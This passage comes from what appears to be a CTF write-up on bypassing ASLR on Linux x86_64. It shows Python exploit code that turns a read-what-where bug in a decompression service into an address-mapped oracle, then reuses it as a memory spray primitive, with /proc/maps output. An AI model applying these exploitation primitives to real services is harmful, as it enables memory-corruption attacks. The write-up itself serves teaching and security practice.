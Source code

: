 [](#42-isaddrmapped-oracle)4.2 isAddrMapped oracle
--------------------------------------------------

We are given a read what where primitive, so building an isAddressMapped oracle is not hard at all.

My way to do it was to build this bytecode:

*   `memcpy(out, targetAddress, 1)`
*   `write(b'A')`

If targetAddress is not mapped the child program segfaults on memcpy, giving us a decompressed file filled with null bytes.

If targetAddress is mapped, the decompressed file has a b'\x41' as the second byte.

```
def isAddrMapped(addr, fileid, filelen=2):
    toup = CompressedFile(filelen)
    
    # addr = OUT_ADDR - off
    off = (OUT_ADDR - addr) & M64
    # memcpy(toup.out, addr, 1)
    toup.memcpy(off, 1)
    # *(toup.out+1) = 0x41
    toup.write(b'\x41')

    uploadFile(toup.content, fileid)
    res = getFile(fileid)
    isMapped = res.content[1] == 0x41
    
    return isMapped

```

[](#43-memory-spray-primitive)4.3 Memory Spray primitive
--------------------------------------------------------

We can completely control the size of the decompressed file, and we get an mmap of that size in [MyController.cpp:62](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64/blob/main/resources/dist-guess-god/src/src/controller/MyController.cpp#L62).

In my exploit i used the `isAddrMapped` function, and changed the filelen.

For example, let's try to allocate a contiguous chunk of size = 0x4000000 = 64mb

```
isAddrMapped(IN_ADDR, 0, 0x4000000)

```

That's the result:

```
root@088ec31b2ce9:/home/ctf/challenge# cat /proc/47/maps
...
7f3450000000-7f3454000000 r--p 00000000 00:af 3                          /challenge/files/0.unkyle
...


```
